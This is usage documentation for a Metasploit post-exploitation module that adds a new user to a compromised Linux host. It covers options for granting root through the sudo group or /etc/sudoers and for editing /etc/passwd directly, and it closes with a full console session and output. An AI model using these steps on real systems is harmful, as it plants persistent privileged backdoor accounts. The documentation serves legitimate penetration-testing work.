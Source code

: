 ## Vulnerable Application

This module creates a new user using the standard (or non-standard) means of
creating a new user on the victim OS. This module requires root privileges
in order to run as it needs access to /etc/shadow.

## Tested Versions

 * Debian 11.7
 * Alpine 3.17
 * Fedora 37

## Verification Steps

  1. Start msfconsole
  2. Get a Meterpreter session
  3. `use post/linux/manage/adduser`
  4. `set session <id>`
  5. attempt to log in with account


## Options

### USERNAME

Provide the username that can be used. Linux has a standardization that means
that password have to follow this regex to be able to be used as a username
`^[a-z][a-z0-9_-]{0,31}$`

### PASSWORD

Provides a password for your new user.

### SHELL

Define the shell that is to be used. Defaults to `/bin/sh` but can be changed
to a shell that exists.

### HOME

Speficy the home directory of the new user. An empty value specifies that the
home directory does not exist.

### GROUPS

Specify what groups the new user should be under. Takes one or multiple values
to provide what groups the new user will have.

## Advanced Options

### SudoMethod

Sets the method that the new user will get root access. This can be done
through multiple methods provided below:

 * **GROUP** - Put the new user in the sudo group (is added automatically to
 the groups option)
 * **SUDO_FILE** - Adds user directly to `/etc/sudoers` file in order to
 prevent being removed from sudoers group
 * **NONE** - No sudo methods are provided. New user is a unprivileged user

### UseraddBinary

Set the binary used to add the user. The two main binaries concerned with are
`useradd` and `adduser`. If you want to overwrite which binary is used or give
an absolute path rather than a relative path, you can override it here. Or you
can set it to `MANUAL` to make the module skip using a binary entirely and edit
`/etc/passwd` directly.

### MissingGroups

This option decides how to manage groups requested that are missing on the victim.
The possible options are provided as such:

 * **ERROR** - If a group is missing, fail the module with a given error
 * **IGNORE** - If the group doesnt exist, continue to add the user, but dont add
 them to the missing groups
 * **CREATE** - If the group doesnt exist, then make them first then add the user
 to them

## Scenarios

```
msf6 > use post/linux/manage/adduser
msf6 post(linux/manage/adduser) > set session 6 
session => 6
msf6 post(linux/manage/adduser) > set sudomethod GROUP 
sudomethod => GROUP
msf6 post(linux/manage/adduser) > set groups wheel docker wireshark
groups => wheel docker wireshark
msf6 post(linux/manage/adduser) > set username metasploit
username => metasploit
msf6 post(linux/manage/adduser) > set password abcd1234
password => abcd1234
msf6 post(linux/manage/adduser) > set shell /bin/bash
shell => /bin/bash
msf6 post(linux/manage/adduser) > set home /home/metasploit
home => /home/metasploit
msf6 post(linux/manage/adduser) > set missinggroups CREATE 
missinggroups => CREATE
msf6 post(linux/manage/adduser) > set verbose true 
verbose => true
msf6 post(linux/manage/adduser) > run

[-] Groups [docker] do not exist on system
[*] Running on Debian 11.7 (Linux 5.10.0-23-amd64)
[*] Useradd exists. Using that
[*] groupadd docker
[*] 
[+] Added docker group
[*] useradd --password $1$WDX5Sg4N$Hcfx4HSigx/KbvtSzhsXD/ --home-dir /home/metasploit --groups wheel,docker,wireshark,sudo --shell /bin/bash --no-log-init metasploit
[*] 
[*] Post module execution completed
msf6 post(linux/manage/adduser) > run

[*] Running on Debian 11.7 (Linux 5.10.0-23-amd64)
[*] Useradd exists. Using that
[*] useradd --password $1$EVUDKEc3$Sip80MAZmLv.2vOhzW/4k0 --home-dir /home/metasploit --groups wheel,docker,wireshark,sudo --shell /bin/bash --no-log-init metasploit
[*] useradd: user 'metasploit' already exists
[*] Post module execution completed
```
